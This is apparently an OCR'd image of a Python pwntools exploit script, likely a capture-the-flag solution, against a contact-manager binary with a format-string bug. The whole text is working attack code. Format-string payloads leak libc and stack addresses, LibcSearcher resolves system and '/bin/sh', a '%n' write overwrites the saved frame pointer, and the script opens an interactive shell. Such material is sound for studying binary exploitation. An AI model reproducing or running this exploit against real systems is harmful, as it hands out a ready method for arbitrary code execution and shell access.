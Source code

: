 ```python
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)


def printcontact():
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')


## get system addr & binsh_addr
payload = '%31$paaaa'
createcontact('1111', '1111', '111', payload)
printcontact()
libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.success('get system addr: ' + hex(system_addr))
log.success('get binsh addr: ' + hex(binsh_addr))
##gdb.attach(sh)

## get heap addr and ebp addr
payload = flat([
    system_addr,
    'bbbb',
    binsh_addr,
    '%6$p%11$pcccc',
])
createcontact('2222', '2222', '222', payload)
printcontact()
sh.recvuntil('Description: ')
data = sh.recvuntil('cccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)

## modify ebp
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
##print payload
createcontact('3333', '123456789', '300', payload)
printcontact()
sh.recvuntil('Description: ')
sh.recvuntil('Description: ')
##gdb.attach(sh)
print 'get shell'
sh.recvuntil('>>> ')
##get shell
sh.sendline('5')
sh.interactive()
```
